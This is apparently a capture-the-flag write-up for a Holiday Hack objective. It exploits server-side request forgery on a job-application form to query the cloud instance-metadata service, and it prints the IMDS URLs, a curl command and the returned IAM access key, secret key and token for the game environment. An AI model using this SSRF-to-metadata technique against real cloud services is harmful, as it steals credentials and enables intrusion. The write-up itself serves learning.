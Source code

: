 <h1 id="objective-10-now-hiring">Objective 10: Now Hiring!</h1>
<p><strong>Location: <a href="https://apply.jackfrosttower.com/">https://apply.jackfrosttower.com/</a></strong><br>
<strong>Elf: ?</strong></p>
<p>This objective is about SSRF.</p>
<p>The website’s application form consumes the user’s name, resume (as file upload) and the URL to the public NLBI report.</p>
<p>After the submission, the item retrieved through this URL by the website is shown on the “submission accepted” screen using the URL <a href="https://apply.jackfrosttower.com/images/%7Busername%7D.jpg">https://apply.jackfrosttower.com/images/{username}.jpg</a></p>
<p>By choosing the right IMDS URLs, the secret access key for the S3 bucket can be retrieved using CURL:</p>
<p>URL 1 (get role name):</p>
<pre><code>http://169.254.169.254/latest/meta-data/iam/security-credentials
</code></pre>
<p>URL 2 (get security credentials for this role):</p>
<pre><code>http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role
</code></pre>
<pre><code>jsw@io:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
</code></pre>
<p>So the secret access key for the S3 bucket is <strong>CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX</strong></p>

